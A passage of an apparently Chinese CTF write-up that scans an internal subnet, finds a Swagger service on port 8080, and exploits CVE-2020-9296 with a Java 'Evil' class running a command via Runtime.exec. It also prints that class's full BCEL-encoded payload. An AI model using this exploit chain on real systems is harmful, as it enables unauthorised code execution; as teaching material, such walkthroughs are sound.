 找打了一提示。然后开始扫内网（百度可以知道这个主机的常用端口是8080，我们就可以直接把端口设置为8080，然后继续食用即可。结合界面给的c段很容易扫出来是

![image-20210416233038279](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416233038279.png)

```
10.0.83.14:8080
```

![image-20210416233114386](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416233114386.png)

然后，就很容易发现这是他的swagger.

结合`CVE-2020-9296` https://blog.csdn.net/xj28555/article/details/106908718/

漏洞poc

```
public class Evil {
    public Evil() {
        try {
            Runtime.getRuntime().exec("touch /tmp/pwned");
        } catch (Exception e) {
            e.printStackTrace();
        }
 
    }
 
    public static void main(String[] args) {
    }
}
```

bcel编码

工具：https://github.com/f1tz/BCELCodeman

```
java -jar BCELCodeman.jar e Evil.class 
```

注意jdk使用1.8版本。

本地起一个测试环境保证生成的payload可以用。

![image-20210416234034158](C:\Users\Dem0\AppData\Roaming\Typora\typora-user-images\image-20210416234034158.png)

```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$Am$91$cdN$C1$U$85O$87$91$81q$Q$QA$c1$3f$d4$85$a8$89l$dca$dc$Y$5d$e1O$84$e8$c2$8d$c3$d0$60$91$99$nC1$bc$91k6h$5c$f8$A$3e$94z$5b$T1$d1$s$bd$ed$3d$f7$f4$bbi$fb$fe$f1$fa$G$e0$A$5b6$SX$b0$91G$n$81E$b5$$Y$u$da$98A$c9$c2$b2$85$V$86$f8$a1$I$84$3cb$88Uv$ae$Z$cc$e3$b0$cd$Z$d2u$R$f0$f3$a1$df$e2Q$d3m$f5HI5$a4$eb$3d$9c$b9$7d$9d$eb$d3E$b2$fb$ae$I$Y$K$95$dbz$d7$7dt$ab$3d7$e8T$h2$SA$a7$a6pv$p$iF$k$3f$V$K$91$3cy$U$bd$7d$e5s$90$84ma$d5$c1$g$d6$a9$9b$M$87$de$7d$b9$w$fd$7e$b5$cd$fd$d0A$Z$h$M$b9$v$f2d$e4$f1$be$Ua$e0$60$T6$f5U$u$86$cc$d4q$d1$earO2d$a7$d2$d50$90$c2$a7$c6v$87$cb$9f$q_$d9$a9$ff$f1$d4$I$c9G$dcc$d8$ae$fcs$93_$d2e$Uz$7c0$a0$D$e9$3e$V$a5$7e$96f$e4z$i$h$b0$e8$b9$d50$c0$d4$N$v$ceRvG$b9Aka$f7$Z$ec$F$c6$7cl$C$f3$e6$J$89$fa$de$E$f11$b9L$a4$90$a1_1$e0$90$af$84$b8f$98Z$b7t$rKZ$9e$98$v$aad$60$7cR$60$W$e6TH$9b$a4g$c8$f1$dd$adH$93$a99$d6$h$F$8ck$c1$a18$af$c1$b9$_$J$ae$b6$90$n$C$A$A
```
